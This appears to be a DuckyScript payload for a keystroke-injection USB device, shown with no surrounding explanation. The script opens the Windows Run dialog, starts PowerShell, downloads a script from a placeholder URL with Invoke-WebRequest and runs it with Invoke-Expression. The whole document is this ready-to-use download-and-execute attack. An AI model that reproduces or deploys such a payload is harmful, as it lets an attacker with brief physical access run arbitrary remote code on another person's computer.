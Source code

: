 Code

  LED 0 0 0
  DELAY 1000
  GUI r
  DELAY 100
  STRING powershell.exe
  ENTER
  DELAY 1000
  STRING $ScriptFromGithHub = Invoke-WebRequest https://example.com/powershellScript.ps1
  ENTER
  DELAY 500
  STRING Invoke-Expression $($ScriptFromGithHub.Content)
  ENTER
  STRING exit
  ENTER
  LED 0 0 255
